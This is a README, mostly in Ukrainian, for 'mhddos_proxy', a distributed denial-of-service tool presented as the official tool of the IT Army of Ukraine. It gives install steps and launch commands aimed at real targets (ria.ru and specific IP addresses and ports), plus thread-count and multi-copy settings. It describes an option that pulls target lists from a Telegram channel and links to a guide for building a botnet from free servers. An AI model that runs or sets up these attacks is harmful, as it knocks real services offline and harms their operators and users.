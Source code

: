 ## IT Army of Ukraine Official Tool 

### [English Version](/README-EN.md)

- Вбудована база проксі з величезною кількістю IP по всьому світу
- Можливість задавати багато цілей з автоматичним балансуванням навантаження
- Безліч різноманітних методів
- Ефективне використання ресурсів завдяки асихронній архітектурі

### ⏱ Останні оновлення
  
Оновлення версії для Windows | Mac | Linux | Android | Docker: https://telegra.ph/Onovlennya-mhddos-proxy-04-16  

- **25.05.2022** Покращено вивід за замовчуванням - більше нема потреби в параметрі `--debug`
- **24.05.2022** Додано можливість запуску з автоматичним оновленням - див. пункт [Запуск](#2--запуск-наведено-різні-варіанти-цілей)
- **21.05.2022** Додано англійську локалізацію - параметр `--lang EN` (в майбутньому можуть бути додані інші мови)
- **18.05.2022** Додано налаштування `--copies` для запуску декількох копій (рекомендовано до використання при наявності 4+ CPU та мережі > 100 Mb/s).
- **15.05.2022** Повністю оновлена, асинхронна версія, що забезпечує максимальну ефективність та мінімальне навантаження на систему

### 1. 💽 Встановлення

#### Розширені інструкції - [натисніть тут](/docs/installation.md) 

#### Python (якщо не працює - спробуйте `python` або `python3.10` замість `python3`)

Потребує python >= 3.8 та git

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    python3 -m pip install -r requirements.txt

#### Docker

Встановіть і запустіть Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Запуск (наведено різні варіанти цілей)

#### Python з автоматичним оновленням (якщо не працює - спробуйте `python` або `python3.10` замість `python3`)

    ./runner.sh python3 https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (потребує оновлення вручну) (якщо не працює - спробуйте `python` або `python3.10` замість `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (для Linux додавайте sudo на початку команди)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 3. 🛠 Налаштування (більше у розділі [CLI](#cli))

Усі параметри можна комбінувати, можна вказувати і до і після переліку цілей

- Щоб додати ваш IP/VPN до атаки (особливо актуально для виділених серверів), додайте параметр `--vpn`
- Щоб обрати цілі від https://t.me/itarmyofukraine2022, додайте параметр `--itarmy`
- Кількість потоків: `-t XXXX` - за замовчуванням 7500 (або 1000 якщо на машині лише 1 CPU)
- Запуск декількох копій: `--copies X`, при наявності 4+ CPU та мережі > 100 Mb/s

### 4. 📌 Допомогти в пошуку нових проксі для mhddos_proxy
Сам скрипт та інструкції по встановленню тут: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 5. 🐳 Комьюніті
- [Створення ботнету з 30+ безкоштовних та автономних(працюють навіть при вимкненому ПК) Linux-серверів](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [Детальний розбір mhddos_proxy та інструкції по встановленню](docs/installation.md)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)
- [Docker-image](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker), який запускає одночасно mhddos_proxy та [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder) (для Linux / Mac додайте sudo на початку):
- [Налаштування з нотифікаціями у Телеграм](https://github.com/sadviq99/mhddos_proxy-setup)

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --debug                Detailed log for each target
      --copies 1             Number of copies to run (default is 1)
      --lang {en,ua}         Select language (default is ua)

### 7. Власні проксі

#### Формат файлу (будь який на вибір):

    IP:PORT
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://username:password@IP:PORT

де `protocol` може бути одним з 3-ох: `http`|`socks4`|`socks5`, якщо `protocol`не вказувати, то буде обрано `http`  
наприклад для публічного проксі `socks4` формат буде таким:

    socks4://114.231.123.38:3065

а для приватного `socks4` формат буде таким:

    socks4://username:password@114.231.123.38:3065
  
**URL - Віддалений файл для Python та Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

де https://pastebin.com/raw/UkFWzLOt - ваша веб-сторінка зі списком проксі (кожен проксі з нового рядка)  
  
**path - Шлях до локального файлу, для Python**
  
Покладіть файл у папку з `runner.py` і додайте до команди наступний параметр (замініть `proxies.txt` на ім'я свого файлу)

    --proxies proxies.txt https://ria.ru

де `proxies.txt` - ваша ваш файл зі списком проксі (кожен проксі з нового рядка)
